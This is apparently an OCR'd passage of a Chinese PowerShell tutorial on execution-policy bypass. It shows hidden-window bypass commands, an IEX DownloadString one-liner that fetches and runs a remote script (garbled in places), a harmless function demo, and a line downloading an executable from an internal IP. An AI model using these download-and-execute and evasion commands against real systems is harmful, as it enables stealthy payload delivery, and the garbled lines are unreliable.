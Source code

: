 ```
PowerShell.exe -ExcutionPolicy Bypass -File xxx.ps1

powershell -exec bypass  .\test.ps1

```

<font color="red">**(3) 本地隐藏绕过权限执行脚本**</font>

```
PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden -NoLogo
-NonInteractive -NoProfile -File xxx.ps1

```

举个示例：

<font color="red">**(4) 用IEX下载远程PS1脚本绕过权限执行**</font>

```
PowerShell.exe -ExecutionPolicy Bypass -WindowStyle Hidden-NoProfile
-NonIIEX(New-ObjectNet.WebClient).DownloadString("xxx.ps1");[Parameters]

```

函数定义：

```
function Test-MrParameter {

    param (
        [string]$ComputerName
    )

    Write-Output $ComputerName
	Write-Output ($ComputerName+$ComputerName)
	Write-Output ($ComputerName+$ComputerName+$ComputerName)
}

```

查看和使用函数：

```
Get-Command -Name Test-MrParameter -Syntax
Test-MrParameter -ComputerName 'this is a computer name'
pause

```

输出结果：

```
Test-MrParameter [[-ComputerName] &lt;Object&gt;]

this is a computer name
按 Enter 键继续...:

```

---

[NamedBlockAst]: $a = 1
[NamedBlockAst]: powershell (new-object system.net.webclient).downloadfile('http://192.168.10.11/test.exe','test.exe')